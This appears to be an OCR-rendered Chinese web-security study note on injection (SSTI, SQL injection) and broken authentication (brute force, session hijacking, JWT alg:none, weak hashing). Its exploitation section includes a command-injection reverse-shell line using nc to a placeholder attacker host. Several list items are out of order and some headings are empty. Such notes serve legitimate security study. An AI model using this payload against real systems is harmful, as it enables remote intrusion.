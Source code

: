 1. **模板注入 (SSTI - Server-Side Template Injection):**  
 在模板引擎 (Jinja2, Twig, Freemarker, Velocity 等) 中注入恶意模板代码，导致远程代码执行 (RCE)。{{ 7*7 }}  
 探测。  
  
1. **原理：**  
 将不受信任的数据作为命令或查询的一部分发送给解释器（如 SQL、OS、LDAP、NoSQL 数据库、ORM、模板引擎等），欺骗解释器执行非预期的命令或访问非授权数据。  
  
1. **常见类型:**  
  
1. **危害:**  
 数据泄露、数据篡改、数据丢失、认证绕过、服务器完全沦陷 (RCE)。  
  
1. **检测:**  
  
1. **利用:**  
 构造有效载荷获取数据 (如 UNION SELECT  
)，执行命令 (如 ; nc -e /bin/sh attacker_ip 4444  
)，写入 Webshell。  
  
1. **失效的身份认证**  
  
1. 检查密码策略强度。  
  
1. 测试登录端点是否存在暴力破解漏洞 (Burp Intruder, Hydra)。  
  
1. 分析会话令牌的生成、传输、存储、失效机制 (是否 HTTPS？ HttpOnly? Secure? 长度/熵？ 注销后是否失效？)。  
  
1. 检查密码重置、修改密码功能的安全性。  
  
1. 审计 JWT 实现。  
  
1. **弱口令/默认口令:**  
 未强制复杂密码策略，或使用默认管理员密码。  
  
1. **暴力破解/字典攻击:**  
 认证端点无有效速率限制、CAPTCHA 或账户锁定机制。  
  
1. **会话固定 (Session Fixation):**  
 攻击者诱使用户使用一个已知的会话 ID 登录。  
  
1. **会话劫持 (Session Hijacking):**  
 窃取有效的会话令牌 (Cookie, JWT) 来冒充用户。XSS、网络嗅探、预测令牌。  
  
1. **会话失效不当:**  
 用户注销后会话未在服务器端立即失效，或会话超时设置过长。  
  
1. **密码管理问题:**  
 明文存储密码、弱哈希 (MD5, SHA1)、无盐哈希、密码重置流程不安全 (可预测 Token、安全问题答案易猜)。  
  
1. **JWT 安全问题:**  
 未验证签名 (alg: none  
 攻击)、使用弱密钥、敏感信息存储在 Token 中。  
  
1. **原理：**  
 身份认证或会话管理功能实现存在缺陷，导致攻击者能够破坏密码、密钥、会话令牌或利用其他实现缺陷假冒其他用户身份。  
  
1. **常见问题:**  
  
1. **危害：**  
 用户账户被完全接管 (尤其是管理员账户)，导致权限提升和数据泄露。  
  